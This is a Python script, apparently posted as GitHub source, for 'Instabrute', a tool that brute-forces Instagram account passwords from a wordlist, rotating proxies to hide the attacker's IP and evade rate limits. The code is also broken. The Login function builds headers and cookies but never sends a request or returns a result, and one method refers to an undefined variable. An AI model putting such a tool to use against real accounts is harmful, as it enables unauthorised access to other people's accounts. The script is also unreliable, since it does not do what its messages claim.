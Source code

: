 '''
Datisnetwork.com creation
'''
#import library
import requests
import json
import time
import os
import random
import sys

#presentation & Thanks
print("A creation by AmirMohammad Jalili")
print("")
print("If you need: ")
print("Telegram: @datisnetwork")
print("")

#Help function
def Input(text):
	value = ''
	if sys.version_info.major > 2:
		value = input(text)
	else:
		value = raw_input(text)
	return str(value)

#The main class
class Instabrute():
	def __init__(self, username, passwordsFile='password-list-1-datisnetwork.txt'):
		self.username = username
		self.CurrentProxy = ''
		self.UsedProxys = []
		self.passwordsFile = passwordsFile
		
		#Check if passwords file exists
		self.loadPasswords()
		#Check if username exists
		self.IsUserExists()


		UsePorxy = Input('[*] Do you want to use proxy (y/n): ').upper()
		if (UsePorxy == 'Y' or UsePorxy == 'YES'):
			self.randomProxy()


	#Check if password file exists and check if he contain passwords
	def loadPasswords(self):
		if os.path.isfile(self.passwordsFile):
			with open(self.passwordsFile) as f:
				self.passwords = f.read().splitlines()
				passwordsNumber = len(self.passwords)
				if (passwordsNumber > 0):
					print ('[*] %s Passwords loads successfully' % passwordsNumber)
				else:
					print('Password file are empty, Please add passwords to it.')
					Input('[*] Press enter to exit')
					exit()
		else:
			print ('Please create passwords file named "%s"' % self.passwordsFile)
			Input('[*] Press enter to exit')
			exit()

	#Choose random proxy from proxys file
	def randomProxy(self):
		plist = open('proxy.txt').read().splitlines()
		proxy = random.choice(plist)

		if not proxy in self.UsedProxys:
			self.CurrentProxy = proxy
			self.UsedProxys.append(proxy)
		try:
			print('')
			print('[*] Check new ip...')
			print ('[*] Your public ip: %s' % requests.get('http://myexternalip.com/raw', proxies={ "http": proxy, "https": proxy },timeout=10.0).text)
		except Exception as e:
			print  ('[*] Can\'t reach proxy "%s"' % proxy)
		print('')


	#Check if username exists in instagram server
	def IsUserExists(self):
		r = requests.get('https://www.instagram.com/%s/?__a=1' % self.username) 
		if (r.status_code == 404):
			print ('[*] User named "%s" not found' % username)
			Input('[*] Press enter to exit')
			exit()
		elif (r.status_code == 200):
			return True

	#Try to login with password
	def Login(self, password):
		sess = requests.Session()

		if len(self.CurrentProxy) > 0:
			sess.proxies = { "http": self.CurrentProxy, "https": self.CurrentProxy }

		#build requests headers
		sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
		sess.headers.update({
			'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
			'x-instagram-ajax':'1',
			'X-Requested-With': 'XMLHttpRequest',
			'origin': 'https://www.instagram.com',
			'ContentType' : 'application/x-www-form-urlencoded',
			'Connection': 'keep-alive',
			'Accept': '*/*',
			'Referer': 'https://www.instagram.com',
			'authority': 'www.instagram.com',
			'Host' : 'www.instagram.com',
			'Accept-Language' : 'en-US;q=0.6,en;q=0.4',
			'Accept-Encoding' : 'gzip, deflate'
		})

		







instabrute = Instabrute(Input('Please enter a username: '))

try:
	delayLoop = int(Input('[*] Please add delay between the bruteforce action (in seconds): ')) 
except Exception as e:
	print ('[*] Error, software use the defult value "4"')
	delayLoop = 4
print ('')



for password in instabrute.passwords:
	sess = instabrute.Login(password)
	if sess:
		print ('[*] Login success %s' % [instabrute.username,password])
	else:
		print ('[*] Password incorrect [%s]' % password)

	try:
		time.sleep(delayLoop)
	except KeyboardInterrupt:
		WantToExit = str(Input('Type y/n to exit: ')).upper()
		if (WantToExit == 'Y' or WantToExit == 'YES'):
			exit()
		else:
			continue
		

importante = input()
